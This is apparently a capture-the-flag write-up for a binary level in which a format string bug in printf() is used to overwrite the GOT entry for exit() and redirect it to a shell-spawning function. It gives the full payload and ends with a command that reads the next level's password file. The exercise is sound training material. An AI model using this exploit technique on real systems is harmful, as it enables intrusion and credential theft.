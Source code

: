 In this level, the executable waits for an input, prints it, and exits after pressing enter.

After analyzing it with gdb, we see that the main() function calls a function named `n()`, but there is also a non-called function `o()`. 

The `main()` function calls `n()`, which is not very interesting by itself. However, inside `n()`, there is a call to `fgets()`:
```
0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
This protects against buffer overflow attacks. After `fgets`(), there is a call to `printf()`:
```
0x080484f3 <+49>: call 0x8048380 <printf@plt>
```
This makes `printf()` vulnerable to a format string exploit.

The non-called function `o()` launches a shell via a call to `system()`:
```
0x080484b1 <+13>: call 0x80483b0 <system@plt>
```
We need to manipulate the `printf()` function into calling `o()` using a format string attack.

Our main concern is that both `n()` and `o()` never return and exit directly. Even if we overwrite something with the format string vulnerability, we may not be able to use that directly.

To overcome this, we can replace the address of `exit()` in the Global Offset Table (GOT) with the address of `o()`. Whenever `exit()` is called, the program will jump to the modified GOT entry.

First, find the address of `exit()` in the GOT and the address of `o()` function.
```
objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
```
(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```

Now we have the address of `exit()`: `0x08049838` and the address of `o()`: `0x080484a4`.

We need to print the memory until we reach the address of `exit()`:
```
 python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit5
 cat /tmp/exploit5 | ./level5
 aaaa 200 b7fd1ac0 b7ff37d0 61616161 25207825 78252078 20782520 25207825 78252078 20782520
```
The address of `exit()` is at the 4th position (`61616161`).


Our final format string attack:
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit5
cat /tmp/exploit - | ./level5
cat /home/user/level6/.pass
```